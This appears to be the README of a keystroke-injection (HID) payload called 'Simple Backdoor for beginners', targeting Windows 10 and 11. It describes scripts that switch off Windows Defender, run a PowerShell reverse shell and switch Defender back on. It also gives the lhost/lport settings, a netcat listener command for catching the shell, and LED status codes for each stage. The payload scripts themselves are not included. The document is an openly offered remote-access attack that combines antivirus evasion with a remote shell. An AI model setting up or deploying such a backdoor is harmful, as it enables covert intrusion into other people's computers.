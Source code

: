 # Title:      
 Simple Backdoor for beginners
## Description
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script

## Configuration
* You just need to change lhost and lport
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Double       | activate defender Stage                |
| Green               | Finished                               |
